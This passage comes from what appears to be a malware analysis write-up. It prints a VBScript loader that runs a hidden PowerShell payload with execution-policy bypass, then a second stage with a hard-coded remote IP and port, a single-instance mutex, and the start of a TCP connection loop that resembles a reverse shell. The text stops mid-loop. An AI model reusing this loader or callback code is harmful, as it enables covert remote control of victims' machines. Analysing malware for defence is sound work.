 ```powershell
On Error Resume Next 

' Create a WScript Shell object
Set sh = WScript.CreateObject("WScript.Shell")
' Execute the contents of a file xM578.tmp
bewcdf = "powershell -ep bypass -command $fn='C:\\ProgramData\\xM578.tmp'; $d = Get-Content $fn; Invoke-Expression $d;"
' Run the PowerShell (with the window hidden)
sh.Run bewcdf, 0, false
```
&rarr; This script sets up a PowerShell command to execute a hidden payload stored in xM578.tmp. The use of decoy strings and obfuscation techniques makes the script harder to analyze. Let's analyse the next phase.
#### xM578.tmp
```powershell

$unmcnex = "64.49.14.181"
$yutbbc = "7032"

function MuTxdonewd
{
    param(
    [parameter(Mandatory = $true)][string] $sefncevID
    )

    try
    {
        $Musnciuhwefx = New-Object System.Threading.Mutex -ArgumentList 'false', $sefncevID

        if (-not $Musnciuhwefx.WaitOne(2000))
        {
            Exit;
        }

        return $Musnciuhwefx
    } 
    catch [System.Threading.AbandonedMutexException] 
    {
        $Musnciuhwefx = New-Object System.Threading.Mutex -ArgumentList 'false', $sefncevID
        return MuTxdonewd -sefncevID $sefncevID
    }
}

$Musnciuhwefx = MuTxdonewd -sefncevID 'ScR38294'

```

&rarr; This function defines a mutex, which is a synchronization object to ensure that only one instance of the script or malware is running at a time. The Mutex ensures that if the script is already running, a new instance of it cannot be initiated. If an existing instance is found, the script will exit. The script calls the mutex function MuTxdonewd with a specific ID (ScR38294)
```powershell
while($true)
{    
	$tcpConnection = New-Object System.Net.Sockets.TcpClient($unmcnex, $yutbbc)
	$tcpStream = $tcpConnection.GetStream()
	$reader = New-Object System.IO.StreamReader($tcpStream)
	$writer = New-Object System.IO.StreamWriter($tcpStream)
	$writer.AutoFlush = $true

```
